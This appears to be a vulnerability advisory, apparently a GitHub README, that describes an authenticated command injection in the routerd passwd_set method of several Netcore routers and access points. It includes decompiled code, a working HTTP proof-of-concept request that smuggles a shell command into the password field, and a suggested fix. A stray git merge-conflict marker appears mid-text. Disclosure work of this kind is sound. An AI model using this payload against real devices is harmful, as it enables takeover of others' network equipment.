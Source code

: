 # Arbitrary Command Injection Vulnerability in Netcore Routers and Wireless APs After Authorization

## I. Affected Products and Firmware Download Links

NBR1005GPEV2：https://www.netcoretec.com/service-support/download/firmware/2707.html

B6V2：https://www.netcoretec.com/service-support/download/firmware/2703.html

COVER5：https://www.netcoretec.com/service-support/download/firmware/2680.html

NAP930：https://www.netcoretec.com/service-support/download/firmware/2704.html

NAP830：https://www.netcoretec.com/service-support/download/firmware/2708.html

NBR100V2：https://www.netcoretec.com/service-support/download/firmware/2706.html

NBR200V2：https://www.netcoretec.com/service-support/download/firmware/2705.html

<<<<<<< HEAD
## II. Vulnerability Causes
=======
>>>>>>> c603ffa0811d316481bad5045b4ff202e6e4050f

The firmware of these routers uses the `uhttpd` + `ubus` architecture.

**uhttpd (Web Server)**

* Listens on port `80` (HTTP) and accepts `POST /ubus` requests.
* Parses the request header to confirm the `Content-Type` is `application/x-www-form-urlencoded`, but the actual payload is JSON (non-standard but common).
* Forwards requests to the `ubus` RPC service (typically via `ubus` Unix Socket or CGI interface).

Running the `ubus list` command shows registered ubus services

![1746600757491](image/README/1746600757491.png)

The vulnerability is found in `routerd` (file: `/usr/bin/routerd`). In its data segment, the callback function for the `passwd_set` method is `sub_416260`

![1746600953768](image/README/1746600953768.png)

In `sub_416260`, `blobmsg_parse` parses Blob format data (OpenWrt's binary JSON format, see image:

![1746601012709](image/README/1746601012709.png)

The structure mapping is:

* `v19` → `user` (username)
* `v20` → `pwd` (password), with `v16 = v20`
* `v21` → `by` (empty if not provided in the request)

![1746601107563](image/README/1746601107563.png)

The username from `v19` is extracted, skipping the Blobmsg header. Each character is checked to ensure it is `_` (ASCII `0x5F`) or alphanumeric (via `isalnum`). Illegal characters trigger an error log

![1746601255662](image/README/1746601255662.png)

The password from `v16` (stored as `v17`, skipping the Blobmsg header) is passed to `passwd_set_api`  **without any validation** . This function executes `passwd_set_api(username, password)`.

If the result is `0` (success), and the username is "root" with `v15` (value of the `by` field) not equal to "ac", the code writes `v17` to:

```bash
uci set auto_ac.auto_ac.passwd=%s; uci commit auto_ac
```

and calls `system()` with this command, creating a **command injection vulnerability**

![1746601374783](image/README/1746601374783.png)

In `passwd_set_api`, the password (`a2`) is not validated

![1746601489477](image/README/1746601489477.png)

If a password exists, it constructs commands:

```c
snprintf(v10, 0x80u, "passwd %s", a1);  // e.g., "passwd root"
snprintf(v11, 0x80u, "%s\n", a2);       // e.g., "admin123\n"
v4 = popen(v10, "w");                   // Opens a command pipe for writing
fwrite(v11, ...);                        // Writes the password twice (for confirmation)
```

On success, it returns `0`, leading to the command injection vulnerability

![1746601700013](image/README/1746601700013.png)

## III. POC Explanation

```
POST /ubus HTTP/1.1
Host: 192.168.50.2
Content-Length: 163
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, /; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.50.2
Referer: http://192.168.50.2/guide/guide.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive{"jsonrpc":"2.0","id":22,"method":"call","params":["a9c61fc83080b13ded7512db83c9b123","routerd","passwd_set",{"user":"root","pwd":"admin123;mkdir -p /tmp/test1"}]}
```

* Replace the `sid` in the `params` field (first value, e.g., `"a9c61fc83080b13ded7512db83c9b123"`) with the actual session ID obtained after login.
* The command `mkdir -p /tmp/test1` can be replaced with any arbitrary command.

Demonstration of remote shell access:

![1746603016270](image/README/1746603016270.png)

## IV. Recommended Solution

Apply the same validation used for the username to the password: restrict it to contain only underscores, letters, and numbers.

**Discoverer: Exploo0Osion.**

**Please contact Netcore (Netis Technology) technical support to fix this vulnerability in a timely manner.**
